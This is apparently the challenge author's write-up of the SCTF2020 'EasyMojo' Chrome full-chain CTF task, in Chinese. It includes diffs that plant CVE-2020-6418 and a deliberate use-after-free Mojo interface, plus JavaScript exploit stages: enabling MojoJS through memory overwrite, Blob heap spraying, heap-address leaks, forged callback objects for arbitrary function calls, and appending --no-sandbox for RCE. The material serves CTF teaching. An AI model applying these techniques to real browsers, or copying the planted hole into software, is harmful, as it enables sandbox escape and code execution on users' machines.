## SCTF2020-EasyMojo

### 0x00 题目信息




题目提供的文件如下：

* Chrome.dll调试符号文件：chrome.dll.pdb
* Chromium可执行程序
* MojoJS文件
* 漏洞Diff：chromium_v8.diff、chromium_sandbox.diff
* server.py部分代码

### 0x01 题目漏洞

本题是Chrome的Fullchain利用题目，涉及到渲染进程和主进程的漏洞利用。

#### chromium_v8.diff

```diff
diff --git a/src/compiler/node-properties.cc b/src/compiler/node-properties.cc
index 3b78872437..5388cf4f83 100644
--- a/src/compiler/node-properties.cc
+++ b/src/compiler/node-properties.cc
@@ -401,7 +401,7 @@ NodeProperties::InferReceiverMapsResult NodeProperties::InferReceiverMapsUnsafe(
           // We reached the allocation of the {receiver}.
           return kNoReceiverMaps;
         }
-        result = kUnreliableReceiverMaps;  // JSCreate can have side-effect.
+        //result = kUnreliableReceiverMaps;  // JSCreate can have side-effect.
         break;
       }
       case IrOpcode::kJSCreatePromise: {
```

v8的漏洞没有特别设计，直接选用了CVE-2020-6418，因为设计这道题目的时候重点都在Mojo的部分，渲染进程的部分就打算直接白给。因为这个漏洞比较新，而且网上也有现成的exp，所以这完全不算难点，没什么好说的。

#### chromium_sandbox.diif

关于Mojo我就不多做介绍了，直接看接口的实现部分。

```diff
diff --git a/third_party/blink/public/mojom/easy_mojo/easy_mojo.mojom b/third_party/blink/public/mojom/easy_mojo/easy_mojo.mojom
new file mode 100644
index 000000000000..4c36180335f8
--- /dev/null
+++ b/third_party/blink/public/mojom/easy_mojo/easy_mojo.mojom
@@ -0,0 +1,8 @@
+module blink.mojom;
+
+interface EasyMojo {
+  AllocBuffer();
+  PutData(string data);
+  GetData() => (string data);
+  FreeBuffer();
+};
\ No newline at end of file

diff --git a/content/browser/easy_mojo/easy_mojo_impl.h b/content/browser/easy_mojo/easy_mojo_impl.h
new file mode 100644
index 000000000000..ca0f534a00db
--- /dev/null
+++ b/content/browser/easy_mojo/easy_mojo_impl.h
@@ -0,0 +1,54 @@
+#ifndef CONTENT_BROWSER_EASY_MOJO_IMPL_H_
+#define CONTENT_BROWSER_EASY_MOJO_IMPL_H_
+
+#include "memory"
+#include "string"
+
+#include "third_party/blink/public/mojom/easy_mojo/easy_mojo.mojom.h"
+
+
+namespace content{
+
+class RenderFrameHost;
+
+    class MojoBuffer{
+
+        public:
+            friend class EasyMojoImpl;
+            MojoBuffer() = default;
+
+            virtual void put(const std::string& data);
+            virtual const std::string& get();
+        protected:
+            virtual ~MojoBuffer();
+
+        private:
+            char buffer_[0x1000];
+            size_t size_;
+
+    };
+
+    class EasyMojoImpl : public blink::mojom::EasyMojo {
+        public:
+            explicit EasyMojoImpl();
+
+            static void Create(
+                mojo::PendingReceiver<blink::mojom::EasyMojo> receiver
+            );
+
+            ~EasyMojoImpl() override;
+
+            // blink::mojom::EasyMojo:
+            void AllocBuffer() override; 
+            void FreeBuffer() override; 
+            void PutData(const std::string& data) override;
+            void GetData(GetDataCallback callback) override;
+
+        private:
+            MojoBuffer* mojo_buffer_;
+            DISALLOW_COPY_AND_ASSIGN(EasyMojoImpl);
+    };
+
+} // namespace content
+
+#endif //CONTENT_BROWSER_EASY_MOJO_IMPL_H_

diff --git a/content/browser/easy_mojo/easy_mojo_impl.cc b/content/browser/easy_mojo/easy_mojo_impl.cc
new file mode 100644
index 000000000000..db3f50613cd5
--- /dev/null
+++ b/content/browser/easy_mojo/easy_mojo_impl.cc
@@ -0,0 +1,53 @@
+#include "string.h"
+
+#include "content/browser/easy_mojo/easy_mojo_impl.h"
+#include "content/public/browser/render_frame_host.h"
+#include "mojo/public/cpp/bindings/self_owned_receiver.h"
+
+namespace content{
+
+    void MojoBuffer::put(const std::string& data){
+
+        memset(buffer_, 0, 0x1000);
+        size_ = data.size();
+        data.copy(buffer_, size_ > 0x1000 ? 0x1000 : size_, 0);
+
+    }
+
+    const std::string& MojoBuffer::get(){
+
+        return *(new std::string(buffer_, size_));
+    }
+
+    MojoBuffer::~MojoBuffer(){}
+
+    void EasyMojoImpl::AllocBuffer(){
+        mojo_buffer_ = new MojoBuffer();
+    }
+
+    void EasyMojoImpl::FreeBuffer(){
+        delete mojo_buffer_;
+    }
+
+    void EasyMojoImpl::PutData(const std::string& data){
+        mojo_buffer_->put(data);
+    }
+
+    void EasyMojoImpl::GetData(GetDataCallback callback){
+        std::move(callback).Run(mojo_buffer_->get());
+    }
+
+    EasyMojoImpl::EasyMojoImpl(){
+        mojo_buffer_ = new MojoBuffer();
+    }
+
+    EasyMojoImpl::~EasyMojoImpl(){}
+
+    // static
+    void EasyMojoImpl::Create(
+        mojo::PendingReceiver<blink::mojom::EasyMojo> receiver) {
+        mojo::MakeSelfOwnedReceiver(std::make_unique<EasyMojoImpl>(),
+                                std::move(receiver));
+    }
+
+} // namspace content
\ No newline at end of file
```

负责接口具体实现的类是`EasyMojoImpl`，一共实现了四个方法，功能分别是：分配、释放、写入数据、返回数据。可以通过包含的MojoJS文件调用这些接口与主进程进行交互。

漏洞是一个很简单的UAF，在`EasyMojoImpl::FreeBuffer`中释放`MojoBuffer`时只执行了`delete`的操作，没有清空指针。而`EasyMojoImpl::PutData`和`EasyMojoImpl::GetData`分别都引用了`mojo_buffer_`，而且进行了虚函数的调用。之后的利用思路就是制造UAF后使用Blob进行占位，并控制虚表，然后就可以劫持程序控制流了。

### 0x02 Exploit

以下writeup只会注重思路，不会花太多篇幅讲解具体的exp代码。

#### Local

##### v8 exploit - enable mojo

虽然v8的漏洞利用是现成的，但是因为Chrome默认情况不能直接调用MojoJS，如果要使用MojoJS，需要加上启动参数`--enable-blink-features=MojoJS`。如果成功利用v8漏洞就可以修改当前Frame对象内部的一个关键变量让Frame拥有调用MojoJS的能力，这个变量就是`content::RenderFrameImpl::enabled_bindings_`



这个变量的可能取值如下：



其中，当`enabled_bindings_ == BINDINGS_POLICY_MOJO_WEB_UI`后会在MainFrame创建ScriptContext的时候开启Mojo接口



v8 exploit的部分就不说了，网上有现成的文章，讲的会比我详细，我直接讲解如何找到并修改这个变量。

要找到这个变量，首先就要找到MainFrame的RenderFrameImpl对象地址，这个对象可以通过全局变量`g_frame_map`找到：

```c++
content::`anonymous namespace'::g_frame_map
```




要找到`g_frame_map`就需要chrome.dll的基地址，所以一个大致的泄露链条如下：

chrome.dll base => `g_frame_map` => `RenderFrameImpl`(main frame) => `RenderFrameImpl.enabled_bindings_`

chrome.dll地址的泄露可以通过window对象来完成，window对象内部有几个回调指针指向chrome.dll内的函数，所以可以通过这一点泄露出chrome.dll的基地址。



然后通过计算偏移找到g_frame_map，直接找第一个元素保存的RenderFrameImpl指针，最后通过偏移找到`enabled_bindings_`



将其修改为2，然后reload页面，enable mojo完成。

```js
function enable_mojo(oob){
    print("[ enable mojo ]")

    const kWindowWrapperTypeInfoOffset  = 0x7c90fb8n;
    const kGFrameMapOffset              = 0x7d47ed8n;
    const kEnabledBindingsOffset        = 0x5c0n ;

    let window_ptr = BigInt(oob.objToPtr(window));
    print("  [*] window_ptr                     : "+hex(window_ptr));

    let v8_window_wrapper_type_info_ptr = oob.getUint64(window_ptr+0x10n);
    let chrome_dll_address = v8_window_wrapper_type_info_ptr - kWindowWrapperTypeInfoOffset;
    print("  [*] chrome.dll address             : "+hex(chrome_dll_address));
    print("  [*] v8 window warpper type info ptr: "+hex(v8_window_wrapper_type_info_ptr));


    let g_frame_map_ptr = chrome_dll_address + kGFrameMapOffset;
    print("  [*] g_frame_map_ptr                : "+hex(g_frame_map_ptr))

    if (oob.getUint64(g_frame_map_ptr) != g_frame_map_ptr + 0x8n) {
        print('  [!] error finding g_frame_map');
        return;
    }

    let begin_ptr = oob.getUint64(g_frame_map_ptr+8n);
    print('  [*] begin_ptr                      : ' + begin_ptr.toString(16));

    // content::RenderFrameImpl
    render_frame_ptr = oob.getUint64(begin_ptr + 0x28n);
    print('  [*] render_frame_ptr               : ' + render_frame_ptr.toString(16));

    let enabled_bindings = oob.getUint32(render_frame_ptr + kEnabledBindingsOffset);
    print('  [*] enabled_bindings:  0b' + enabled_bindings.toString(2));
    oob.setUint32(render_frame_ptr + kEnabledBindingsOffset, 2);
    enabled_bindings = oob.getUint32(render_frame_ptr + kEnabledBindingsOffset);
    print('  [*] new enabled_bindings:  0b' + enabled_bindings.toString(2));

    print('  [*] reloading');
    window.location.reload();
}
```

##### sandbox escape

mojo接口的调用非常简单，包含了必要的MojoJS文件之后按照以下形式调用即可：

```js
let easy_mojo_ptr_ = new blink.mojom.EasyMojoPtr();
Mojo.bindInterface(
    blink.mojom.EasyMojo.name,
    mojo.makeRequest(easy_mojo_ptr_).handle,
    "context"
);

// easy_mojo_ptr_.allocBuffer();
// easy_mojo_ptr_.freeBuffer();
// easy_mojo_ptr_.putData("");
// easy_mojo_ptr_.getData();
```

漏洞前面已经分析过了，知道怎么使用接口之后就可以写出对应的POC代码：

```js
easy_mojo_ptr_.allocBuffer();
easy_mojo_ptr_.freeBuffer();
easy_mojo_ptr_.putData("");
```

按照这个顺序调用即可触发crash。

通过源代码可以知道，触发UAF漏洞的类是`MojoBuffer`，这个类大小是0x1010，类的size足够大会很好进行占位。只要在`freeBuffer`调用之后申请同等大小的Blob缓冲区，一般都可以直接命中。而Blob的申请不是直接通过`new Blob`，通行的做法是使用`BlobRegistryPtr.registerFromStream`接口，使用这个接口进行占位成功率会很高。

我简单封装了一下UAF的操作：

```js
function UAF(){
    let easy_mojo_ptr_ = new blink.mojom.EasyMojoPtr();
    Mojo.bindInterface(
        blink.mojom.EasyMojo.name,
        mojo.makeRequest(easy_mojo_ptr_).handle,
        "context"
    );

    easy_mojo_ptr_.allocBuffer();
    easy_mojo_ptr_.freeBuffer();
    easy_mojo_ptr_.putData();
    easy_mojo_ptr_.getData();

    this.ptr = easy_mojo_ptr_;
    this.alloc = () => this.ptr.allocBuffer();
    this.trigger = () => this.ptr.putData("");
    this.free = () => this.ptr.freeBuffer();

    return this;
}
```

然后，每次`freeBuffer`之后使用堆喷进行占位，堆喷封装为`spray`方法，调用顺序如下：

```js
await uaf.alloc();
await uaf.free();
let heap = await spray(data);
await uaf.trigger();
```

`data`是往占位的Blob里填充的数据。

了解如何使用接口和触发漏洞并占位之后，可以思考一下怎么拿到flag，也就是如何去执行命令`C:\Users\pwnbox\EasyMojo\readflag.exe <token>`。

我在题目附件里没有提供dll，因为这道题目的预期解并不依赖ROP，也就是说不依赖具体的Windows版本。我的做法是最后在Chrome主进程调用`SetCommandLineFlagsForSandboxType`函数将`--no-sandbox`添加到全局变量`current_process_commandline_`中，最后在子进程再次使用v8 exploit执行shellcode进行RCE。

要达到这个目的需要做的事：

1. 可控参数调用`SetCommandLineFlagsForSandboxType`。
2. 泄露`current_process_commandline_`地址，该对象指针在chrome.dll内存空间，但是对象本身在堆里，所以要完成一个任意地址读将堆指针泄露出来。

现阶段拥有的能力：

1. 任意虚函数调用，参数不可控。
2. 可以控制主进程的一段堆内存，但是不知道堆内存地址。

将任意虚函数调用转化为可控参数的任意函数调用就是最关键的部分了。

Chrome内部有很多对象的属性有回调指针，这些回调基本都是`base::RepeatingCallback`或者`base::OnceCallback`，对应的也有虚函数对这些回调进行调用，于是就可以利用如下形式的虚函数：

```c++
void VirtualFunction() override {
    some_callback_.Run();
}
```

每个callback对象内部都有一个`bind_state_`指针，`bind_state_`里封装了回调所需要的参数，所以就可以通过伪造callback对象来完成参数可控的任意函数调用。

callback对象的结构如下：


可以看到只有一个`bind_state_`，`bind_state_`对象的结构如下：



重要的成员：`polymorphic_invoke`、`functor`

`polymorphic_invoke`指向的地址是回调的入口点，负责将参数传入寄存器并跳转到真正的回调函数`functor`。

`functor`之后的数据，包括`bound_args_`在内都是参数，详细结构如下：




了解需要伪造的对象之后，可以看下回调是怎么被调用的，选取一个符合条件的虚函数，对应的汇编如下：



最开始的rcx指向`this`，`rcx+10h`就是callback对象所在位置，之后的`rcx+8`就指向了回调的入口点。

但是现在不知道任何堆地址，即便在控制的内存空间伪造了对象也没什么用。所以需要首先泄露出一个堆地址，泄露堆地址可以使用如下形式的虚函数：

```c++
void VirtualFunction() override() {
    some_member_ = new SomeClass();
}
```

我选择使用的虚函数是`content::WebContentsImpl::GetWakeLockContext`



我个人推荐使用CodeQL去找这些虚函数，时间有限，关于这个部分我后面可能会单独写一篇文章来讲。而且这个虚函数还将`this`指针写入了新对象的内存中，之后可以通过使用其他虚函数将`this`指针泄露出来，这样做的目的就是将被控制的堆块地址泄露出来，那就获得了一块知道地址的并且可控的堆地址。

泄露`this`的虚函数的形式如下：

```c++
void VirtualFunction() override {
    some_member_ = other_member_.some_attr;
}
```

最终找到一个合适的虚函数`DictionaryIterator::Start`



可以泄露可控的堆地址之后，可以将对应的操作封装起来：

```js
async function allocReadable(allocData=new ArrayBuffer(0)) {
    while(true){
        let data = new ArrayBuffer(kMojoBufferSize);
        let view = new DataView(data);

        let allocView = new DataView(allocData);
        let dataOffset = kMojoBufferSize - allocData.byteLength;
        for (var i = 0; i < allocData.byteLength; i++) {
            view.setUint8(dataOffset + i, allocView.getUint8(i));
        }
        view.setBigUint64(0, kGetWakeLockContextVptr, true);
        await uaf.alloc();
        await uaf.free();
        let heap = await spray(data);
        await uaf.trigger();
        results = await Promise.all(heap.map((a) => a.readQword(kWakeLockContextOffset)));
        let allocation;
        let wakeLockContextAddr;
        for (var i = 0; i < results.length; i++) {
            if (results[i] != 0) {
                wakeLockContextAddr = results[i];
                allocation = heap[i];
            }
        }
        if (wakeLockContextAddr == undefined) {
            print("\t[!] stage1 failed");
            continue;
        }
        print("\t[*] AllocReadable stage1 success 0x"+wakeLockContextAddr.toString(16));

        let MojobufPtrAddr = wakeLockContextAddr + BigInt(kWebContentsOffset);
        let bufferleak
        while(true){
            data = new ArrayBuffer(kMojoBufferSize);
            view = new DataView(data);
            view.setBigUint64(0, kLeakPtrContentVptr, true);
            view.setBigUint64(0x20, MojobufPtrAddr - 0x28n, true);
            await uaf.alloc();
            await uaf.free();
            let heap2 = await spray(data);
            await uaf.trigger();
            results = await Promise.all(heap2.map((a) => a.readQword(kBufferLeakOffset)));
            for (var i = 0; i < results.length; i++) {
                if (results[i] != 0) {
                    bufferleak = results[i];

                }
            }
            if (bufferleak == undefined) {
                print("\t[!] stage1 failed");
                continue;
            }
            break;
        }

        bufferleak = bufferleak + BigInt(dataOffset)
        print("\t[*] Success!  0x"+bufferleak.toString(16));

        allocation.originalRead = allocation.read;
        allocation.read = (offset, size) => allocation.originalRead(offset + dataOffset, size);

        return [allocation, bufferleak];
    }
}
```

之后伪造callback对象就可以通过这个封装好的函数完成。

之后的任务就是伪造callback对象，伪造callback对象，只需要关注`polymorphic_invoke`怎么找的问题，可以看看这个`invoker`一般情况下是什么样的：



图片中的这个`invoker`也是我exp中使用的，这个`invoker`传递了四个参数，可以满足绝大部分需求。

实现任意函数带参数调用的关键就是找到这个`invoker`了，解决之后就可以将操作封装了。

```js
async function callFunction(functionAddr, arg0=0n, arg1=0n, arg2=0n, arg3=0n){
    print("[*] Call function: 0x"+functionAddr.toString(16));
    let k4ArgBindStateSize = 0x48;
    let bindState = new ArrayBuffer(k4ArgBindStateSize);
    let view = new DataView(bindState);
    view.setBigUint64(0, 1n, true); // refcount
    view.setBigUint64(8, kInvoker4Args, true); // polymorphic_invoke
    view.setBigUint64(0x10, kNopRet, true); // destructor
    view.setBigUint64(0x18, kNopRet, true); // query_cancellation_traits
    view.setBigUint64(0x20, functionAddr, true); // functor
    view.setBigUint64(0x28, arg0, true);
    view.setBigUint64(0x30, arg1, true);
    view.setBigUint64(0x38, arg2, true);
    view.setBigUint64(0x40, arg3, true);

    let [a, bindStateAddr] = await allocReadable(bindState);
    print("\t[*] allocated bindState at " + bindStateAddr.toString(16));

    let data = new ArrayBuffer(kMojoBufferSize);
    view = new DataView(data);
    view.setBigUint64(0, kInvokeCallbackVptr, true);
    view.setBigUint64(kBindStatePtrOffset, bindStateAddr, true);

    await uaf.alloc();
    await uaf.free();
    await spray(data);
    await uaf.trigger();
}
```

好了，现在可以对`SetCommandLineFlagsForSandboxType`进行调用了。接下来就是泄露命令行参数对象的地址了，要完成这个操作可以使用`copy64`函数完成。

```js
async function getCurrentProcessCommandLine(){
    print("[*] Getting current_process_commandline...");
    let [allocation_cmd, heapAddress] = await allocReadable(new ArrayBuffer(8));
    while (true) {
        await callFunction(kCopyQword, heapAddress, kCurrentProcessCommandline);
        print("\t[*] heapAddress: 0x"+heapAddress.toString(16));
        cmdLine = await allocation_cmd.readQword(0);
        if (cmdLine == 0n) {
            print("\t[!] got bad pointer for current_process_commandline... retrying");
            continue;
        }
        print("\t[*] current_process_commandline: 0x" + cmdLine.toString(16));
        return cmdLine;
    }
}
```

最后

```js
cmdLine = await getCurrentProcessCommandLine();
print("[*] Appending --no-sandbox to command line...");
await callFunction(kSetCommandLineFlagsForSandboxType, cmdLine, 0n /* kNoSandboxType */);
print("[*] Done!");
```

不过现在只是完成了去掉沙箱保护的过程，如果要成功RCE，就需要让Chrome开启新的进程，不然`--no-sandbox`是不会生效的。我选择的是直接在当前页面创建新的Frame，这些Frame也会被算作新进程，并且继承主进程的命令行参数。

需要注意的是，新frame不能和自己exp页面同源，不然Chrome不会创建新进程。



#### Remote

为了让选手做这道题目的体验和一般形式的PWN差不多，我选择让选手发送自己服务器的URL到服务器或者上传自己exp的压缩包，在攻击成功后返回flag到客户端。我会公布server.py的全部内容，感兴趣的师傅可以看一下。

弹计算器：



获取flag：





### 0x03 写在最后

这个exploit思路来自：https://theori.io/research/escaping-chrome-sandbox/

文章写的很详细，但是最终没有完成fullchain的利用，我之后测试的时候发现，因为漏洞触发在sub frame，sub frame是不能通过enable_mojo开启MojoJS接口的。所以我设计了这道题目，就是为了使用同样的手法进行一次完整利用，这个思路在可以使用任意虚函数调用的时候非常有用，因为不会依赖具体的操作系统版本。

比较巧的是今年还有两场比赛也出了Chrome的赛题，我出题的时候并不知道，等到比赛快开始了别人告诉我，我还以为会撞题，23333

